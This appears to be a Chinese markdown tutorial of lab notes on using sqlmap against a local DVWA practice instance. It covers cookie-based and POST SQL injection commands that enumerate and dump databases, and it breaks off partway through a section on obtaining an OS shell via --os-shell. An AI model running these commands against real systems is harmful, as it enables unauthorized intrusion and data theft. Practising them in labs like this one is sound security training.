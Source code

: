# Sqlmap实战笔记

### 一、利用Sqlmap进行需要登录的注入

1. 搭建实验环境：打开burp，使用DVWA下的[SQL Injection](http://127.0.0.1:8081/range/dvwa/vulnerabilities/sqli/)

2. 实验步骤：

   > 1. 任意输入数据并抓包：获取请求包的Cookie值
   >
   >    ![image-20210831114425813](images/Sqlmap实战笔记/image-20210831114425813.png)
   >
   >    ![image-20210831115308161](images/Sqlmap实战笔记/image-20210831115308161.png)
   >
   > 2. 打开Sqlmap，通过获得的Cookie值使用Cookie注入命令：`sqlmap.py -u "注入点" --cookie=”获取的cookie”`
   >
   >    > * 列出当前数据库：`sqlmap.py -u "注入点" --cookie=”获取的cookie” --current-db`
   >    >
   >    >   ![image-20210831121817572](images/Sqlmap实战笔记/image-20210831121817572.png)
   >    >
   >    >   ---
   >    >
   >    >   ![image-20210831121903651](images/Sqlmap实战笔记/image-20210831121903651.png)
   >    >
   >    > * 枚举出指定数据库（当前数据库）的所有表：`sqlmap.py -u "注入点" --cookie=”获取的cookie” -D 当前数据库名 --tables`
   >    >
   >    >   ![image-20210831130129447](images/Sqlmap实战笔记/image-20210831130129447.png)
   >    >
   >    >   ---
   >    >
   >    >   ![image-20210831130150470](images/Sqlmap实战笔记/image-20210831130150470.png)
   >    >
   >    > * 查看指定表中的所有字段：`sqlmap.py -u "注入点" --cookie=”获取的cookie” -D 指定数据库名 -T 指定表名 --columns`
   >    >
   >    >   ![image-20210831130413638](images/Sqlmap实战笔记/image-20210831130413638.png)
   >    >
   >    >   ---
   >    >
   >    >   ![image-20210831130453344](images/Sqlmap实战笔记/image-20210831130453344.png)
   >    >
   >    > * 查看指定字段的所有数据：`sqlmap.py -u "注入点" --cookie=”获取的cookie” -D 指定数据库名 -T 指定表名 -C 指定字段1,指定字段2 --dump --batch`
   >    >
   >    >   ![image-20210831130937449](images/Sqlmap实战笔记/image-20210831130937449.png)
   >    >
   >    >   ---
   >    >
   >    >   ![image-20210831131022770](images/Sqlmap实战笔记/image-20210831131022770.png)

### 二、利用sqlmap进行POST注入

1. 搭建实验环境：打开burp，使用DVWA下的[Brute Force](http://127.0.0.1:8081/range/dvwa/vulnerabilities/brute/)

2. 实验步骤：

   > 1. 使用Burp抓包，并将请求包保存至sqlmap目录下
   >
   >    ![image-20210831184654925](images/Sqlmap实战笔记/image-20210831184654925.png)
   >
   > 2. 枚举出所有的数据库名：`python sqlmap.py -r 保存的请求包文件 -p SQL注入点 --dbs`
   >
   >    ![image-20210831191310454](images/Sqlmap实战笔记/image-20210831191310454.png)
   >
   >    这道题的SQL注入点为username参数
   >
   >    ---
   >
   >    ![image-20210831191521760](images/Sqlmap实战笔记/image-20210831191521760.png)
   >
   > 3. 选择一个数据库，枚举其中的所有表名：`python sqlmap.py -r 保存的请求包文件 -p SQL注入点 -D 表名 --tables`
   >
   >    ![image-20210831191935339](images/Sqlmap实战笔记/image-20210831191935339.png)
   >
   >    ---
   >
   >    ![image-20210831191920358](images/Sqlmap实战笔记/image-20210831191920358.png)
   >
   > 4. 选择一个表，枚举其中的所有字段名：`python sqlmap.py -r 保存的请求包文件 -p SQL注入点 -D 表名 -T 表名 --columns`
   >
   >    ![image-20210831192329996](images/Sqlmap实战笔记/image-20210831192329996.png)
   >
   >    ---
   >
   >    ![image-20210831192310374](images/Sqlmap实战笔记/image-20210831192310374.png)
   >
   > 5. 枚举出指定表中指定字段的数据：`python sqlmap.py -r 保存的请求包文件 -p SQL注入点 -D 表名 -T 表名 -C "指定字段1,指定字段2，…" --dump --batch`
   >
   >    ![image-20210831192732494](images/Sqlmap实战笔记/image-20210831192732494.png)
   >
   >    ---
   >
   >    ![image-20210831192757046](images/Sqlmap实战笔记/image-20210831192757046.png)

### 三、利用sqlmap交互式写shell

1. 搭建实验环境，从存在命令执行漏洞的位置（[Command Injection](http://127.0.0.1:8081/range/dvwa/vulnerabilities/exec/)）获取当前路径，从存在SQL注入的位置（[SQL Injection](http://127.0.0.1:8081/range/dvwa/vulnerabilities/sqli/)）写shell

2. 实验步骤：

   > 1. 通过存在命令执行漏洞的位置获取当前路径：
   >
   >    ![image-20210831205333249](images/Sqlmap实战笔记/image-20210831205333249.png)
   >
   >    > Windows下用：chdir
   >    >
   >    > Linux下用：pwd
   >
   > 2. 抓包获取Cookie值后，利用Cookie进行注入：`sqlmap.py -u "注入点" --cookie=”获取的cookie” --os-shell `
   >
   >    > 1. 判断当前用户权限
   >    >
   >    >    



